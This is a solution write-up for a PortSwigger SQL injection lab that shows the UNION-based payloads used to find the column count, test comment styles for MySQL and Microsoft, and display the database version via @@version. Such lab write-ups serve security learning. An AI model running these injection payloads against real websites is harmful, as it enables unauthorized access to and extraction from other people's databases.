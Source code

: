 ```yaml
---
title: PortSwigger - SQLi 8 - Querying the DB type and version on MySQL and Microsoft
date: 2023-05-16
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal 

To solve the lab, display the database version string.

## ✅ Solution

> We know it is a MySQL or Microsoft database so we will have to try different comment symbol:
> `--comment` for Microsoft
> `#comment` or `-- comment` for MySQL
> The `#` will be encoded as `%23` and the space ` ` as `%20`

Find the number of columns while trying different comments:

````text
# Microsoft: --comment
<website>/filter?category=Gifts'UNION SELECT NULL--                 # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL--            # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL--       # error! 
# MySQL: #comment
<website>/filter?category=Gifts'UNION SELECT NULL%23                # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL%23           # works  
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL%23      # error! 
# MySQL: -- comment
<website>/filter?category=Gifts'UNION SELECT NULL--%20              # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL--%20         # works  
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL--%20    # error! 
````

We know 2 columns are returned by the questy. Is one containing string?

````text
<website>/filter?category=Gifts'UNION SELECT 'abc',NULL--%20        # works
````

> To determine the database type and version on MySQL we have to query `@@version`.
> The `@` character is `%40` when URL encoded.

Full payload:

````text
<website>/filter?category=Gifts'+UNION+SELECT+%40%40version,NULL--%20    # works
````

The database type and version are displayed.
